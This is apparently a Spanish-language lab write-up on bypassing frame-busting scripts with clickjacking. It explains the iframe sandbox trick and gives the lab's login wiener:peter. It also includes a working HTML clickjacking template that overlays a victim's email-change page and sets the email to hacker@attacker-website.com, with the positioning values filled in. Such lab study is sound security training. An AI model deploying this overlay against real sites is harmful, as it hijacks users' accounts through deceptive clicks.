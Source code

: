 **Las técnicas de destrucción de marcos a menudo son específicas del navegador y la plataforma y, debido a la flexibilidad de HTML, los atacantes generalmente pueden eludirlas**. Como los frame busting son JavaScript, la configuración de seguridad del navegador puede impedir su correcto funcionamiento, de hecho, es posible que el navegador ni siquiera sea compatible con JavaScript. 

Una solución eficaz para los atacantes contra los frame busting es utilizar el atributo iframe de HTML5 **sandbox**. 

Cuando este se establece con los valores *allow-forms* o *allow scripts*  y el valor *allow-top-navigation* es omitido entonces el frame busting es neutralizado debido a que no puede verificar qué marco se encuentra encima del otro.

<br />

**Laboratorio 3: Clickjacking with a frame buster script**.

Este laboratorio está protegido un frame buster que previene al sitio web de ser enmarcado.

Para resolver el laboratorio, cree algo de HTML que enmarque la página de la cuenta y engañe al usuario para que cambie su dirección de correo electrónico haciendo clic en "Haga clic en mí". El laboratorio se resuelve cuando se cambia la dirección de correo electrónico.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales: *wiener:peter*

Iniciamos sesión en el laboratorio con las credenciales proporcionadas y obtenemos la URL de la vícitma y la funcionalidad del cambio del email:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220504180317.png' | relative_url }}" text-align="center"/>
</div>

De esta forma, procedemos a construir el marco a utilizar para llevar a cabo el clickjacking:

```html
<style>
iframe {
position:relative;
width:$width_value;
height: $height_value;
opacity: $opacity;
z-index: 2;
}
div {
position:absolute;
top:$top_value;
left:$side_value;
z-index: 1;
}
</style>
<div>Test me</div>
<iframe sandbox="allow-forms" src="$url?email=hacker@attacker-website.com"></iframe>
```

Llevando a cabo los reemplazos habituales:

- $url: con el URL del sitio de cambio de email de la víctima.
- $width_value: 500px
- $height_value: 700px
- $opacity: 0.1
- $top_value: 385px
- $side_value: 80px
